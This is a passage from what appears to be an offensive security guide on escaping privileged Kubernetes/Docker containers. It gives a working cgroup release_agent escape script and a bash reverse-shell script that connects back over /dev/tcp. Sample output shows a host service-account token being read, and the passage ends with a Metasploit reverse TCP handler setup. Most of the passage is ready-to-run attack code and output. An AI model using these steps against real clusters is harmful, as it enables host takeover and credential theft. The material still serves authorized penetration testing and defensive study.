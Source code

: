 ### Option 2: Use Brandon Edwards and Nick Freeman’s version which upgrades you to an interactive shell

#### Create escape script that will use the container escape POC to execute a connect back script on the host

Drop this into `escape.sh`:

```bash
#!/bin/bash
overlay=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
mkdir /tmp/escape
mount -t cgroup -o blkio cgroup /tmp/escape
mkdir -p /tmp/escape/w
echo 1 > /tmp/escape/w/notify_on_release
echo "$overlay/shell.sh" > /tmp/escape/release_agent
sleep 3 && echo 0 >/tmp/escape/w/cgroup.procs &
nc -l -p 9001
```
#### Find the IP address of your POD
This next script, `shell.sh` is executed on the host node and it will call back to the listener on your pod, so you'll need to use the pod's IP

#### Create the connect back script
Drop this into `/shell.sh` on the pod. If you change the name of your script, change it in escape.sh as well. 
```
#!/bin/bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/POD_IP/9001 0>&1"
```

#### Make both scripts executable
```bash
chmod +x shell.sh escape.sh
```

#### Execute escape.sh from the pod, which spin up a listener for you and then make the host to execute shell.sh

```bash
root@pod-priv:/# ./escape.sh
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@k8s-worker:/# cat var/lib/kubelet/pods/998357c8-45c7-4089-9651-cb8b185f7da8/volumes/kubernetes.io~secret/default-token-qqgjc/token
eyJhbGciOiJSUzI1NiIsImtpZCI6Ik[REDACTED]
```

### Option 3: Use the metasploit module: docker_privileged_container_escape

#### Fire up your multi handler, using the -z flag to avoid interacting with the session
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.127
LHOST => 10.0.0.127
msf6 exploit(multi/handler) > set port 4444
port => 4444
msf6 exploit(multi/handler) > run -jz
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.0.0.127:4444
```

